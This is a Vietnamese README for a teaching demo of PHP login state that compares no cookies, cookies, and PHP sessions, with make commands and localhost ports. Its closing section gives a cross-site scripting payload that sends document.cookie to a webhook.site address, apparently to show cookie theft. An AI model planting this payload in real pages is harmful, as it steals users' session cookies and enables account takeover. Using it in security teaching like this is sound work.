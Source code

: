 # PHP Login Demo: So sánh Cookie vs Session

## 🚀 Cách chạy từng demo

### 1. Demo **không dùng Cookie/Session**

```bash
make run-no-cookie
```
Truy cập: http://localhost:8000

Dữ liệu login không được lưu sau khi chuyển trang. Mỗi trang phải truyền thủ công thông tin người dùng.

### 2. Demo có dùng Cookie

```bash
make run-with-cookie
```
Truy cập: http://localhost:8001  

🔹 Cookie được dùng để lưu user_id phía client.  

🔹 Trình duyệt tự gửi cookie trong mỗi request.  

### 3. Demo có dùng Cookie & Session

```bash
make run-with-cookie-session
```
Truy cập: http://localhost:8002

🔹 PHP sử dụng PHPSESSID trong cookie để map với file session trên server.  

🔹 Dữ liệu người dùng được lưu hoàn toàn ở server qua $_SESSION.  

### 💡 Mục tiêu
So sánh ứng dụng thực tế của Cookie và Session

Giải thích cách duy trì trạng thái đăng nhập

Làm rõ vai trò của từng phương pháp trong lập trình web bằng PHP

### 📜 Tài liệu kèm theo
File trình chiếu LaTeX: session_cookies_presentation.tex và bản PDF tương ứng


### ⚠️ Câu lệnh XSS 

```bash
<script>
fetch("https://webhook.site/1dbe3a3a-xxxx-xxxx-xxxx-1c3f2d5f5b7c?cookie=" + document.cookie)
</script>
```